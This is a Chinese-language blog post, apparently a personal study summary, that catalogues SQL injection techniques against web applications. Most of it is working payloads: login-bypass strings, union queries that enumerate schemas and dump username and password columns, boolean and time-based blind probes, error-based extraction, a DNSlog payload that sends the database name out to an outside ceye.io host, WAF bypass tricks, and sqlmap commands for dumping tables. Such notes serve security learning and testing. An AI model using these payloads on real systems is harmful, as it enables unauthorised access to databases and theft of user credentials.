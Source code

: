 ```yaml
---
title: sql注入总结
date: 2021-10-27 20:41:52
updated: 2021-10-27 20:41:52
tags: [sql注入]
categories: Web安全
toc: true
---
```

sql注入基本知识
<!-- more -->
### 一、常见注入方式

万能密码：

```mysql
1' or '1'='1　　　　　　　　#完整语句 select username,age from userinfo where id='' or '1'='1'
1' or 1=1#　　　　　　　　　#完整语句 select username,age from userinfo where id='' or 1=1#'
1'=0 #　　　　　　　　　　　　#完整语句 select username,age from userinfo where id=''=0#
```

`1' order by n --+` 或者 `1' group by n --+` 判断字段数，当n回显正常，n+1报错，即n是字段数

<font color='red'>注意事项：</font>

- 在手工注入时，字符串为表名要加反引号

#### 1.Union(联合查询)

union联合查询，若前者查询失败则会显示后者查询的结果
进而利用select 1,2,3,…… 找到可以显示的字段号，例如2,3 即可在2,3位置替换成相应的函数

`-1' union select 1,2,3 --+` or `-1' union select 1,2,'3`进行闭合

例如`database()`数据库名称,`version()`版本

```mysql
查询有哪些表：
group_concat('<br>',table_name) from information_schema.tables where table_schema=database()
查询表中字段：
group_concat('<br>',column_name) from information_schema.columns where table_name='' 
```

通过**information_schema**数据库获取信息

```mysql
1.查找库名
select schema_name from information_schema.schemata;
2.查找表
select table_name from information_schema.tables where table_schema='AAA';
3.查找表中字段
select column_name from information_schema.columns where table_schema=database() and table_name='BBB';
4.查找数据
select username,passwd from BBB;
```

**联合注入有个技巧。在联合查询并不存在的数据时，联合查询就会构造一个 虚拟的数据**

![](https://s2.loli.net/2022/02/04/K3R7nBP4ZrLTJip.png)

 如果当前页面有登录的话就可以混淆密码(包括md5密码查询)



#### 2.布尔盲注

> web页面返回值是布尔型，注入后根据页面返回值来得到数据库信息的方法

1.获取数据库名称的长度
	`(length(database()))>8 `不断的进行判断
2.获取数据库名称
	`(ascii(substr(database(),1,1))=115)`第一位 或者 `(substr(database(),1,1)='s')`
	`(ascii(substr(database(),2,1))=115)`第二位

#### 3.时间盲注

> 根据web页面响应的时间差来判断该页面是否存在SQL注入点（union和布尔盲注用不了时）

```mysql
1.用sleep判断注入点
	?id=1' and sleep(3) --+ 发现3s后网页才刷新，说明语句被带到数据库中执行了
2.获取数据库名称长度
	?id=1' and if((length(database())>7),sleep(3),1) --+ 不断进行判断
3.获取数据库名称
	?id=1' and if((ascii(substr(database(),1,1))>101),sleep(3),1) --+
```

#### 4.报错注入(xpath注入)

> 人为地制造报错条件，使查询结果能够出现在错误信息中（要能返回错误信息）

```mysql
#1.updatexml()
	?id=1' and (updatexml(1,concat(0x7e,(select user())),1))#
#2.extractvalue()
	?id=1' and (extractvalue(1,concat(0x7e,(select user()),0x7e)))#
```

#### 5.DNSlog盲注

> 利用其他协议或者渠道，http,dns解析等，将数据外带出来，直接回显数据实现注入，可以减少发送的请求

利用条件：mysql.ini中 secure_file_priv 必须为空
		为null时，不允许导入导出
		为/tmp时，导入导出只能在/tmp目录下
payload:
`?id=1' and load_file(concat('\\\\',(select database()),'.xxx.ceye.io\\abc'))--+`
相应更换sql语句，xxx为ceyo.io平台给每个账号起的昵称
例如：
`?id=1' and load_file(concat('\\\\',(select database()),'.t98xmx.ceye.io\\abc'))--+`

#### 6.堆叠注入

通过`;` 执行多条sql语句

#### 7.宽字符注入

通常过滤 `'` 的方法是在前面加上转义符：\

'的url编码为%27，\的url编码为%5c, 加上%df后

而在GBK编码方式下，%df%5c是一个繁体字“連”，所以单引号成功逃逸。

```mysql
id = -1%df' union select ……
```



### 二、绕过技巧

参考博客之一：[SQL注入绕过技巧 - VVVinson - 博客园 (cnblogs.com)](https://www.cnblogs.com/Vinson404/p/7253255.html)

##### 1.关键词嵌套、大小写绕过

- union ==> UNIunionO

##### 2.各种编码

- URL编码 **例如：# 对应的编码为 %23**
- 16进制编码
- ASCII编码
- Unicode编码
- 双重编码
- 还有8进制，utf-32，utf-16 等等

##### 3.关键字替换(也可以考虑php_RCE的绕过方式)

- 空格替换：/**/, () ,Tab代替空格, 0xa0用16进制解码，%0a %0b %0c %0d %09
- and替换：&&
- or替换：||
- =替换：!<>，like , rlike
- 引号替换：用16进制编码

##### 4.逗号绕过（**使用from或者offset**）：

在使用盲注的时候，需要使用到substr(),mid(),limit。这些子句方法都需要使用到逗号。

对于substr()和mid()这两个方法可以使用`from to`的方式来解决：

```
select substr(database() from 1 for 1);
select mid(database() from 1 for 1);
```

使用join：

```
union select 1,2     #等价于
union select * from (select 1)a join (select 2)b
```

 使用like：

```
select ascii(mid(user(),1,1))=80   #等价于
select user() like 'r%'
```

对于`limit`可以使用`offset`来绕过：

```
select * from news limit 0,1
# 等价于下面这条SQL语句
select * from news limit 1 offset 0
```

##### .等价函数绕过

- hex()、bin()=ascii()
- concat_ws()=group_concat()
- mid()、substr()=substring()
- sleep() ==>benchmark()



### 三、sqlmap使用

详细使用：[sqlmap用户手册详解【实用版】 | 漏洞人生 (vuln.cn)](https://www.vuln.cn/2035)

tamper脚本讲解：[sqlmap注入之tamper绕过WAF防火墙过滤 | 漏洞人生 (vuln.cn)](https://www.vuln.cn/2086)

-u "url"			检测目标网站是否存在注入
-u "url" --dbs			获取数据库所有库的名称
-u "url" --users		列数据库用户
-u "url" --is-dba		判断当前用户是否为数据库管理员权限
-u "url" --current-db		获取当前使用的数据库
-u "url" --current-user		获取当前用户名称
-u "url" -D "xxx" --tables	获取xxx库下的表
-u "url" -D "xxx" -T "A,B" --columns 	获取A,B表中的字段
-u "url" -D "xxx" -T "A" -C "a,b,c" --dump 	导出表A中字段a,b,c的数据
		

-r xxx.txt			post传入数据进行注入
--level				探测等级参数
--tamper			使用绕过脚本
-u "url" -p "id,username"	指定参数进行扫描
设置具体sql注入技术：
	--technique B	布尔注入
	--technique E	报错注入
	--technique U	union查询注入
	--technique S	堆叠注入
	--technique Q	内联查询注入
	--technique T	时间盲注
	--technique T --time-sec 3 时间盲注时间为3

cookie注入：-u "url" --cookie "id=1" --level 2 --dbs
UA注入    : -u "url" --level 3 --dbs
refer注入 ：-u "url" --level 5 --dbs

